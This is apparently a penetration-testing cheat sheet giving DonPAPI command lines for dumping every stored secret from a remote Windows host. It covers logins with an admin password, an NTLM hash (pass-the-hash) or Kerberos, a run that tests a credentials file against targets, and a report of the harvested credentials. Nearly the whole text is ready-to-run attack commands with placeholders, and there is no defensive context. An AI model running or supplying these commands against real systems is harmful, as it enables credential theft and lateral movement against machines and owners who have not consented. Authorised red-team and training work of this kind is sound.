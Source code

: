 # [Dump all secrets of the target machine with an admin password](https://github.com/login-securite/DonPAPI)
```sh
python3 ./DonPAPI.py '<domain>/<user>:<password>@<host>'
```

# Dump all secrets of the target machine with an admin hash
```sh
python3 ./DonPAPI.py --hashes <LM>:<NT> '<domain>/<user>@<host>'
```

# Dump all secrets using kerberos (-k) and local auth (-local_auth)
```sh
python3 ./DonPAPI.py -k '<domain>/<user>@<host>'
```

# Test credentials
```
# creds.txt
# <user>:<pass>
python3 ./DonPAPI.py -credz creds.txt '<domain>/user:pass@<host>'
```

# Create a report of all harvest credentials
```sh
python3 ./DonPAPI.py -R
```



